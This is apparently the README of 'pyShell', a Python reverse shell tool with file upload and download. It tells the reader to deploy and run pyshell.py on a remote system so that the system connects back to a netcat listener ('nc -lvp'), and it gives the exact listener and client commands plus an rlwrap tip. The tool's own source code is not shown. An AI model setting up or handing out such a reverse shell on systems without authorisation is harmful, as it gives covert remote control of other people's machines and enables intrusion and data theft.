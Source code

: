# pyShell

pyShell is a reverse shell with upload/download functionality. Deploy and execute pyShell.py on the remote system and catch with netcat.

Usage: on your local system run       nc -lvp <port number>
       on the remote system run       python3 pyshell.py -t <target ip> -p <port number>
  
Requirements: Remote system must have python3 installed, or pyshell.py must be compiled with pyinstaller.

Recommendation: install rlwrap and prefix local receiver command with rlwrap for improved tab completion
                rlwrap nc -lvp <port number>

